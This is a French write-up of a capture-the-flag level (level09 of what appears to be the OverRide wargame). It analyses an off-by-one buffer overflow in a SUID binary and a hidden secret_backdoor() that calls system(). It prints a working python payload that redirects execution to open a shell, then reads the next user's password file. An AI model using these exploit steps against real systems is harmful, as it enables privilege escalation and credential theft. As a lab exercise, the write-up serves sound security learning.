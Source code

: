 ## Comportement
- J'ai des droits `level09` que je peux vérifier en tapant `whoami`
- Un binaire est présent avec des droits différents : `-rwsr-s---+ 1 end     users   12959 Oct  2  2016 level09*`
En exécutant le binaire (`./level09`), on observe:
    - 2 inputs : login et message.  
    ```shell
    level09@OverRide:~$ ./level09 
    --------------------------------------------
    |   ~Welcome to l33t-m$n ~    v1337        |
    --------------------------------------------
    >: Enter your username
    >>: cuz
    >: Welcome, cuz
    >: Msg @Unix-Dude
    >>: wtf dude
    >: Msg sent!
    ```


## Analyse
En analysant le binaire (`gdb ./level09`) on observe:
- Une faille : un signe `=` en trop qui fait que l'on loop 41 tours et nn 40 tours sur un buffer de 40, donc 1 de trop. On peut overflow la structure suivante (il s'agit de size) qui determine la longeur du `strncpy()`:  
    ```shell
    idx = 0;
    while (idx < 41 && *(username + idx))
    {
        *(msg->username + idx) = *(username + idx);
        idx += 1;
    }
    ```
- Il y a une fonction `secret_backdoor()` qui n'est jamais appele dans le programme. Elle appelle `system()` avec le parametre qu'on lui fournit : 
    ```shell
    void secret_backdoor(void)
    {
    char shellcode[128];

    fgets(shellcode, 0x80, stdin);
    system(shellcode);
    }
    }
    ```


## Résolution
- Partie 1 du Payload :
    - on utilise 40 octets (A*40) pour remplir le buffer.
    - on ajoute la valeur maximale d'un octet (\xff) 
    - suivie d'un retour à la ligne (\x0a) pour séparer les deux strings. 
- Partie 2 du Payload :
    -  offset de 200 octets (B*200).
    - adresse de la fonction `secret_backdoor()` : (\x8c\x48\x55\x55\x55\x55\x00\x00). (info functions secret_backdoor)
    - on ajoute un retour à la ligne (\x0a).
    - on finit par la commande "/bin/sh".
- On craft notre payload : 
```shell
python -c 'print "A"*40+"\xff"+"\x0a"+"B"*200+"\x8c\x48\x55\x55\x55\x55\x00\x00"+"\x0a"+"/bin/sh"' > /tmp/payload
cat /tmp/payload - | ./level09
```
- Un shell s'ouvre avec de nouveaux privilèges : en effet, si l'on tape `whoami`, on obtient `end`.
- Il ne reste plus qu'à :
  - récupérer le password (`cat /home/users/end/.pass`)
  - quitter le shell (`exit`)
  - et passer au end (`su end`) en renseignant ce password.
  